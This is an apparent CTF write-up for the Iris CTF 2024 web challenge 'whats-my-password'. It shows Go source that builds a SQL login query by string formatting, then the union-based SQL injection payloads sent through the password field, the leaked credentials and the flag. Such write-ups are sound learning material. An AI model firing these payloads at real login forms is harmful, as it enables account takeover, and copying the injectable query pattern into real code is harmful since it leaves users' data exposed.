 ```yaml
---
layout: writeup
category: Iris-CTF-2024
chall_description: N/A
points: 50
solves: 422
tags: web sqli union
date: 2024-1-7
comments: false
---
```


[baby] Oh no! Skat forgot their password (again)!  

Can you help them find it?  

[https://whats-my-password-web.chal.irisc.tf/](https://whats-my-password-web.chal.irisc.tf/)  
[whats-my-password.tar.gz](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Iris-CTF-2024/whats-my-password.tar.gz)  

---

We're given a source folder for the site, `whats-my-password.tar.gz`. The only relevant part is `setup.sql` and `src/main.go`

Here's `setup.sql`:  

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

With a bit of research on that last part of SQL, I realized that what it was doing was likely just granting the capability of using `SELECT` to the user. So maybe we can do an SQL Union attack?  

Additionaly, it seems like the user `skat` has the flag as his password. Seems like that's our target!  

Now here's the relevant parts of `main.go`:  

```go
matched, err := regexp.MatchString(UsernameRegex, input.Username)
if err != nil {
    w.WriteHeader(http.StatusInternalServerError)
    return
}

if matched {
    w.WriteHeader(http.StatusBadRequest)
    w.Write([]byte("Username can only contain lowercase letters and numbers."))
    return
}

qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```

Firstly, notice how we can only do SQL injection in the password input. This is because the username can only contain lowercase letters and numbers, making single/double quotes' usage impossible. However, there is no such check on the password. Additionally, take a look at the SQL statement. It is a very standard SQL select statement for login, and now we know we should use double quotes.  

Hence, let's try to construct our query. With Burp Suite's Repeater, we can repeatedly send the JSON POST data. I first sent this:  

```json
{"username":"a","password":"\"union select * from uwu.users-- "}
```

The `--` at the end denotes a comment so the SQL statement will execute properly and essentially ignore everything after our payload. The username is irrelevant, and `a` is merely a placeholder so it doesn't throw an exception for a missing username.  

Unfortunately, this query does not return the output we want!  

```json
{"username":"root","password":"IamAvEryC0olRootUsr"}
```

Hm. Maybe we can try selecting specifically for the `skat` user?  

```json
{"username":"a","password":"\"union select * from uwu.users where username='skat'-- "}
```

And now we get the output we want!  

```json
{"username":"skat","password":"irisctf{my_p422W0RD_1S_SQl1}"}
```

Therefore, the flag is:  

    irisctf{my_p422W0RD_1S_SQl1}